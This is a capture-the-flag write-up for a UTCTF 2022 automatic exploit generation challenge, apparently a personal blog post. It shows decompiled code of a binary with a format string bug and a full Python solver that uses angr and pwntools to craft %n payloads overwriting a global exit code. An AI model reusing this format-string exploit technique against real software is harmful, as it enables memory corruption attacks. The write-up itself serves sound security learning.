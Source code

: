 ```
Now with printf!

By Tristan (@trab on discord)
nc pwn.utctf.live 5002
```

[binary 1](/utctf-2022/bins/aeg1)

![](/uctf-2022/angr_simp.png)

I really like automatic exploit generation. I did the one in last year's UTCTF and in general they are some of my favorite challenges. So of course as soon as I heard there was one here I went straight for it. 

```text
❯  nc pwn.utctf.live 5002
You will be given 10 randomly generated binaries.
You have 60 seconds to solve each one.
Solve the binary by making it exit with the given exit code
Press enter when you're ready for the first binary.
...xxd blob

Binary should exit with code 230
```

The first step is to scope out the provided binary. What's the general sort of attack we're doing, how do different binaries differ, etc. 

```c
void main(void)

{
  long lVar1;
  undefined8 *puVar2;
  long in_FS_OFFSET;
  undefined8 local_218;
  undefined8 local_210;
  undefined8 local_208 [63];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  local_218 = 0;
  local_210 = 0;
  puVar2 = local_208;
  for (lVar1 = 0x3e; lVar1 != 0; lVar1 = lVar1 + -1) {
    *puVar2 = 0;
    puVar2 = puVar2 + 1;
  }
  *(undefined2 *)puVar2 = 0;
  fgets((char *)&local_218,0x202,stdin);
  permute(&local_218);
  printf((char *)&local_218);
                    /* WARNING: Subroutine does not return */
  exit(exit_code);
}
```

It's a pretty clear format string vulnerability and it exits using a global variable "exit_code" as an argument. 

![checksec of an aeg binary; no PIE](/utctf-2022/aeg_checksec.png)

There isn't even PIE, so with stack control and a format string vulnerability it should be pretty straightforward to use %n to write whatever we want to exit_code. 

Unfortunately...

```
void permute(undefined8 param_1)

{
  permute5(param_1);
  permute3(param_1);
  permute6(param_1);
  permute1(param_1);
  permute4(param_1);
  permute7(param_1);
  permute2(param_1);
  permute8(param_1);
  return;
}
```

Any input we provide gets shuffled up so what gets passed to printf is completely different than what gets provided via stdin. A quick check of a new binary shows that this all gets shuffled about when a new binary is generated. How do we resolve this?  


Well I hate work so I just used angr to magic up a solution lol. All you need to do to solve this is make a format string payload, explore to find a state at the printf invocation, apply some constraints on memory, and then boom you can just ask for the stdin that fits those constraints. It's really quite disgusting that it's this easy. 

```python
import angr, argparse
from pwn import *
from claripy import *
import os
from subprocess import check_output
from pwn import *

r = remote("pwn.utctf.live", 5002)

r.sendline()
r.recvuntil("binary.\n")
for i in range(10):
    log.info(f"trying round {i}")
    with open("tmp.xxd", "wb") as f:
        f.write(r.recvuntil("\n\n"))
    os.system("xxd -rp tmp.xxd > binary.tmp")

    r.recvuntil(b"Binary should exit with code ")
    exit_code = int(r.recvline().rstrip())
    log.info(f"attempting to call exit({exit_code})")
    exe = ELF("./binary.tmp")
    p = angr.Project("./binary.tmp")

    state = p.factory.blank_state()
    simgr = p.factory.simgr(state, save_unconstrained=True)


    # lmao this is genuinely disgusting
    printf_caller_addr = int(check_output("objdump -Mintel -D ./binary.tmp | rg \"call.*?printf@plt\"",shell=True).decode().lstrip().split(":")[0], 16)


    payload = f"%{exit_code}c%10$n\x00"
    simgr.explore(find=printf_caller_addr)
    for i in simgr.found:
        i.add_constraints(i.memory.load(i.regs.rdi,len(payload)) == payload)
        i.add_constraints(i.memory.load(i.regs.rdi+16,8) == p64(exe.symbols['exit_code']))
        if i.satisfiable():
            log.info("sat!")
        else:
            log.error("oop not sat :(")
            exit(0)

        r.send(i.posix.dumps(0))
        r.recvuntil(f"{exit_code}\n")
r.interactive()
```

I went to run it on the server... only to find that it took too long. Averaged something like 80 seconds on my laptop and the server times out at 60 seconds per binary. I was a little scared that I wouldn't be able to get it fast enough to solve but a little investigation found the tip "Use pypy.  pypy is an alternate python interpreter that performs optimized jitting of python code." I tried running it with pypy and sure enough it cut my average execution time to 40 seconds, comfortably fast enough to solve it. 

utflag{you_mix_me_right_round_baby_right_round135799835}
